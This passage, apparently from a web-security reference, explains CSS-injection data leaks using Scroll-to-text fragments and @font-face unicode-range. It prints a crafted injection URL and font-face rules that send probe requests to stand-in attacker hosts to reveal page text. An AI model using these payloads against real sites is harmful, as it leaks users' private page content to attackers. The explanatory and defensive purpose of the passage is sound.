 In such scenarios, if the text "Administrator" is present on the page, the resource `target.png` gets requested from the server, indicating the text's presence. An instance of this attack can be executed through a specially crafted URL that embeds the injected CSS alongside a Scroll-to-text fragment:

```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```

Here, the attack manipulates HTML injection to transmit the CSS code, aiming at the specific text "Administrator" through the Scroll-to-text fragment (`#:~:text=Administrator`). If the text is found, the indicated resource is loaded, inadvertently signaling its presence to the attacker.

For mitigation, the following points should be noted:

1. **Constrained STTF Matching**: Scroll-to-text Fragment (STTF) is designed to match only words or sentences, thereby limiting its capability to leak arbitrary secrets or tokens.
2. **Restriction to Top-level Browsing Contexts**: STTF operates solely in top-level browsing contexts and does not function within iframes, making any exploitation attempt more noticeable to the user.
3. **Necessity of User Activation**: STTF requires a user-activation gesture to operate, meaning exploitations are feasible only through user-initiated navigations. This requirement considerably mitigates the risk of attacks being automated without user interaction. Nevertheless, the blog post's author points out specific conditions and bypasses (e.g., social engineering, interaction with prevalent browser extensions) that might ease the attack's automation.

Awareness of these mechanisms and potential vulnerabilities is key for maintaining web security and safeguarding against such exploitative tactics.

For more information check the original report: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

You can check an [**exploit using this technique for a CTF here**](https://gist.github.com/haqpl/52455c8ddfec33aeefb468301d70b6eb).

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

You can specify **external fonts for specific unicode values** that will only be **gathered if those unicode values are present** in the page. For example:

```html
<style>
  @font-face {
    font-family: poc;
    src: url(http://attacker.example.com/?A); /* fetched */
    unicode-range: U+0041;
  }
  @font-face {
    font-family: poc;
    src: url(http://attacker.example.com/?B); /* fetched too */
    unicode-range: U+0042;
  }
  @font-face {
    font-family: poc;
    src: url(http://attacker.example.com/?C); /* not fetched */
    unicode-range: U+0043;
  }
  #sensitive-information {
    font-family: poc;
  }
</style>

<p id="sensitive-information">AB</p>
htm
```
